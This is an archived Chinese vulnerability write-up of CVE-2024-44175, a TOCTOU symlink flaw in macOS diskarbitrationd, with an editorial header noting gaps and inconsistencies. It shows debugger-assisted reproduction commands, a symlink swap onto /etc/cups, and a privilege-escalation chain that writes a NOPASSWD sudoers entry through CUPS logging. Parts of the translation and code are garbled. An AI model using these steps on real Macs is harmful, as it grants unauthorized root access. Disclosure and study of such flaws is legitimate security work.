


# macOS 磁盘仲裁中的 TOCTOU 漏洞可通过利用符号链接进行沙箱逃逸和权限升级攻击

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：macOS diskarbitrationd与UserFS/fskitd
- 文献类型：磁盘仲裁TOCTOU调试分析
- 版本、权限及部署边界：本地挂载UserFS、可控挂载目录并赢得竞态；演示通过调试器人为停住特权进程，arm64e
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 开头14.x<14.7.1与结尾14.7已修复矛盾，15.1 beta2亦应与正式分支区分
2. 调试附加root守护进程需要额外权限/系统设置，该演示不是无权限稳定利用，不应直接当完整LPE PoC
3. 挂载覆盖目录视图并不等于改写底层目录内容；后续CUPS日志到sudoers需额外权限与文件模式条件
4. 核心代码含Markdown星号，翻译断句损坏；沙箱逃逸Terminal偏好链步骤主要截图，缺完整操作证据
5. 保留Kandji原始研究与调试轨迹，补补丁官方出处和实验恢复警示

### 操作风险

挂载覆盖目录视图并不等于改写底层目录内容；后续CUPS日志到sudoers需额外权限与文件模式条件

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://nvd.nist.gov/vuln/detail/CVE-2024-44175>
- 原文参考链接（未重新核验）：<https://www.kandji.io/blog/macos-audit-story-part1>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

 Ots安全   2024-11-28 09:06  
  
  
  
**网址**  
  
https://nvd.nist.gov/vuln/detail/CVE-2024-44175  
  
**目标**  
- macOS 14.x < 14.7.1  
  
**解释**  
  
CVE-2024-44175是**diskarbitrationd**macOS中的**TOCTOU**一个（检查时间到使用时间）漏洞，该漏洞使得**symbolic link**使用.  
  
该漏洞发生在UserFS（用户模式文件系统）处理过程中，是由于关键系统路径验证不充分而导致的。攻击者可以利用此问题覆盖系统上的敏感目录。  
  
**diskarbitrationd**分别处理KEXT（内核扩展）文件系统和UserFS  
diskarbitrationd文件系统。当一个设备被挂载时，它会检查它是否是UserFS文件系统，如果是UserFS文件系统，它会使用单独的挂载方法来挂载它。然而，在此过程中省略了选项（-k），因此，滥用符号链接的攻击成为可能。  
  
* disk Arbitrationd：用于管理 macOS 中的磁盘设备和文件系统的系统守护进程。  
  
**DAFileSystemMountWithArguments 函数**  
  
diskarbitrationd在挂载UserFS文件系统之前，它首先检查 UserFS 支持。正如您在下面的代码中看到的，如果支持UserFS，  
useUserFS则变量  
TRUE设置为 。  
  
```
void DAFileSystemMountWithArguments( DAFileSystemRef filesystem,
                                     CFURLRef device,
                                     CFStringRef volumeName,
                                     CFURLRef mountpoint,
                                     uid_t userUID,
                                     gid_t userGID,
                                     CFStringRef preferredMountMethod,
                                     DAFileSystemCallback callback,
                                     void * callbackContext,
                                     ... )
{
    ...
    if ( fsImplementation != NULL )
    {
        ...
        if ( preferredMountMethod != NULL )
        {
            if ( useUserFS == FALSE )
            {
                if ( ( CFStringCompare( CFSTR("UserFS"), preferredMountMethod, kCFCompareCaseInsensitive ) == 0) &&
                     ( ___CFArrayContainsString( fsImplementation, CFSTR("UserFS") ) == TRUE ) )
                {
                    **useUserFS = TRUE;**
                }
            }
        }
    }
    ...
}
```  
  
  
useUserFS 当设置为 时  
TRUE，使用UserFS API  
diskarbitrationd挂载文件系统。  
  
```
if ( useUserFS )
{
    CFArrayRef argumentList;
    argumentList = CFStringCreateArrayBySeparatingStrings( kCFAllocatorDefault, devicePath, CFSTR( "/" ) );
    if ( argumentList )
    {
        ...
        DAThreadExecute(__DAMountUserFSVolume, context, __DAMountUserFSVolumeCallback, context);
        CFRelease( argumentList );
    }
    else
    {
        status = EINVAL;
    }
    goto DAFileSystemMountErr;
}
```  
  
  
UserFS disk Arbitrationd调用fskitd来发出文件系统的挂载命令。通过调用 fskitd 挂载处理命令时，未使用nofollow/-k选项来防止 **符号链接更改。这意味着没有对符号链接进行验证或处理，攻击者可以使用它来引导安装到不同的路径。此外，由于它以 root** 权限运行，因此可能会受到权限升级攻击。**fskitd**  
  
漏洞总结如下：  
1. mount 命令，**nofollow/-k**缺少选项  
  
1. mount_lifs 以 root 权限运行，因此无论调用者的权限如何，它都以 root 权限运行。  
  
disk仲裁检查挂载点是否存在于处理请求的  
_DAServerSessionQueueRequest函数中。sandbox escapeprivilege escalation  
  
```
kern_return_t _DAServerSessionQueueRequest( mach_port_t _session,
...
if ( path )
{
    status = sandbox_check_by_audit_token(_token, "file-mount", SANDBOX_FILTER_PATH | SANDBOX_CHECK_ALLOW_APPROVAL, path);
    if ( status )
    {
        status = kDAReturnNotPrivileged;
    }
    free( path );
}
...
if ( audit_token_to_euid( _token ) )
{
    if ( audit_token_to_euid( _token ) != DADiskGetUserUID( disk ) )
    {
        status = kDAReturnNotPrivileged;
    }
}
```  
  
  
sandbox_check_by_audit_token()通过检查沙箱、UID等来验证挂载路径，但由于结构性问题，并不能防止后续挂载执行阶段因符号链接等原因导致路径被改变的可能性，TOCTOU（Time of检查使用时间）出现漏洞。验证后，如果使用符号链接将路径更改为其他位置，则可以执行沙箱逃逸或LPE 。  
  
在本文中，我们将根据上述漏洞进行LPE调试和执行。  
  
**1.创建DMG文件**  
  
首先，创建使用MS-DOS (FAT)文件系统的磁盘映像。  
  
```
hdiutil create -fs "MS-DOS" -size 10MB -volname disk dos.dmg
```  
  
  
**2. 将调试器附加到diskarbitrationd**  
  
使用 lldb连接到disk Arbitrationd  
sandbox_check_by_audit_token进程并在函数中设置断点。  
  
```
(lldb) process attach --name "diskarbitrationd"
Process 113 stopped
* thread #1, stop reason = signal SIGSTOP
    frame #0: 0x000000019e3b3564 libsystem_kernel.dylib`__sigsuspend_nocancel + 8
libsystem_kernel.dylib`__sigsuspend_nocancel:
-> 0x19e3b3564 <+8>: b.lo 0x19e3b3584 ; <+40>
    0x19e3b3568 <+12>: pacibsp 
    0x19e3b356c <+16>: stp x29, x30, [sp, #-0x10]!
    0x19e3b3570 <+20>: mov x29, sp
Target 0: (diskarbitrationd) stopped.
Executable module set to "/usr/libexec/diskarbitrationd".
Architecture set to: arm64e-apple-macosx-.
(lldb) b sandbox_check_by_audit_token
Breakpoint 2: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x00000001aa59bc50
(lldb) c
Process 113 resuming
```  
  
  
**3. 开始挂载操作**  
  
在另一个终端中，准备磁盘并开始安装操作。  
  
```
tree@forest ~ % mkdir mnt
tree@forest ~ % open dos.dmg 
tree@forest ~ % umount /Volumes/DISK
tree@forest ~ % diskutil list
...
/dev/disk5 (disk image):
   #: TYPE NAME SIZE IDENTIFIER
   0: FDisk_partition_scheme +10.5 MB disk5
   1: DOS_FAT_32 DISK 10.5 MB disk5s1
tree@forest ~ % hdiutil attach -mountpoint mnt /dev/disk5s1
```  
  
1. 创建mnt目录，并将其作为挂载点来挂载磁盘。  
  
1. 打开dos.dmg文件，加载磁盘映像，然后使用umount命令卸载自动挂载的卷' / Volumes/DISK' 。这会产生一个可供diskarbitrationd使用的磁盘设备。  
  
1. 如果使用diskutil list命令检查磁盘列表，**disk5**可以看到添加了一个名为的新设备。disk5是由FDisk分区方案组成的10.5MB磁盘映像，里面的disk5s1分区以DOS_FAT_32格式存在。  
  
1. hdiutil attach -mountpoint mnt /dev/disk5s1执行命令将disk5s1分区挂载到mnt目录。  
  
```
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 2.1
    frame #0: 0x00000001aa59bc50 libsystem_sandbox.dylib`sandbox_check_by_audit_token
libsystem_sandbox.dylib`sandbox_check_by_audit_token:
-> 0x1aa59bc50 <+0>: pacibsp 
    0x1aa59bc54 <+4>: sub sp, sp, #0xb0
    0x1aa59bc58 <+8>: stp x20, x19, [sp, #0x90]
    0x1aa59bc5c <+12>: stp x29, x30, [sp, #0xa0]
Target 0: (diskarbitrationd) stopped.
(lldb) finish
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = step out
    frame #0: 0x00000001005463b8 diskarbitrationd`___lldb_unnamed_symbol712 + 1488
diskarbitrationd`___lldb_unnamed_symbol712:
-> 0x1005463b8 <+1488>: mov w8, #0x9 ; =9 
    0x1005463bc <+1492>: movk w8, #0xf8da, lsl #16
    0x1005463c0 <+1496>: str x8, [sp, #0x30]
    0x1005463c4 <+1500>: mov x20, x19
Target 0: (diskarbitrationd) stopped.
(lldb) b CFRelease
Breakpoint 3: where = CoreFoundation`CFRelease, address = 0x000000019e462edc
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 3.1
    frame #0: 0x000000019e462edc CoreFoundation`CFRelease
CoreFoundation`CFRelease:
-> 0x19e462edc <+0>: pacibsp 
    0x19e462ee0 <+4>: stp x20, x19, [sp, #-0x20]!
    0x19e462ee4 <+8>: stp x29, x30, [sp, #0x10]
    0x19e462ee8 <+12>: add x29, sp, #0x10
Target 0: (diskarbitrationd) stopped.
(lldb) finish
```  
  
  
在此阶段，disk Arbitrationd将完成工作，并且将到达您设置的断点。  
  
**4. 创建和替换符号链接**  
  
接下来，CFRelease前往呼叫点。该位置对应于沙箱逃逸和权限升级验证过程的结束。此时，您已经通过了disk Arbitrationd执行的所有验证，因此您现在可以用指向 root 拥有的位置的符号链接替换您正在使用的目录。  
  
```
tree@forest ~ % rm -rf mnt
tree@forest ~ % ln -s /etc/cups/ mnt
```  
  
  
删除之前创建的mnt目录并创建一个名为/etc/cups指向 的符号链接。mnt  
  
```
(lldb) breakpoint disable
All breakpoints disabled. (2 breakpoints)
(lldb) c
Process 113 resuming
```  
  
  
禁用lldb 调试器中设置的断点，以便disk Arbitrationd继续运行。  
  
```
tree@forest ~ % mount
/dev/disk4s1s1 on / (apfs, sealed, local, read-only, journaled)
devfs on /dev (devfs, local, nobrowse)
...
/dev/disk5s1 on /private/etc/cups (msdos, local, nodev, nosuid, noowners, noatime, fskit)
```  
  
  
结果/etc/cups可以看到磁盘镜像已挂载到该目录中。  
  
您现在已经准备好执行 LPE 的环境了！  
  
**A.L.P.E.**  
  
  
  
LPE按照该流程进行，各过程如下。  
  
1.  
/etc/cups挂载到目录后，创建自定义cups-files.conf文件  
- ErrorLog ：将日志文件位置  
/etc/sudoers.d/lpe设置为 .  
  
- LogFilePerm  
777：设置日志文件的权限。  
  
2.  
cupsctl使用命令创建错误日志文件  
- 在生成的日志文件中添加以下内容  
  
```
%staff ALL=(ALL) NOPASSWD:ALL
```  
  
  
3.LogFilePerm700更改为并重新运行  
cupsctl命令  
  
4.  
sudo 通过命令获取root权限  
  
**B.沙箱逃逸**  
  
  
  
1.  
preference file将终端插入磁盘映像  
- CommandString 使用该选项可将LPE 脚本设置为在运行终端时运行。  
  
2.将磁盘装载到您的用户首选项目录中并运行终端。  
  
3.由于终端在沙箱外部运行，因此配置的脚本将成功运行并执行 LPE。  
  
同样，disk Arbitrationd 的 TOCTOU 漏洞启用了沙箱逃逸和使用符号链接的LPE 。  
  
**通过以下两种方法修复了该漏洞。**  
  
1.为挂载命令nofollow添加选项  
  
```
/sbin/mount_lifs -o ...,nofollow,...
```  
  
  
更改源代码nofollow以始终添加选项。  
  
2.在 fskitd 中使用呼叫者的用户 ID  
  
改进了 fskitd 以根据调用者的用户 ID 验证权限。  
  
```
token = [FSAuditToken new];
token = [token tokenWithRuid:gDAConsoleUserUID];
```  
  
  
Apple 使用上述方法修补了 macOS Sequoia 15.1 beta 2 和 14.7。  
  
**参考**  
  
https://www.kandji.io/blog/macos-audit-story-part1  
  
  
  
  
感谢您抽出  
  
  
  
.  
  
  
  
.  
  
  
  
来阅读本文  
  
  
  
**点它，分享点赞在看都在这里**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
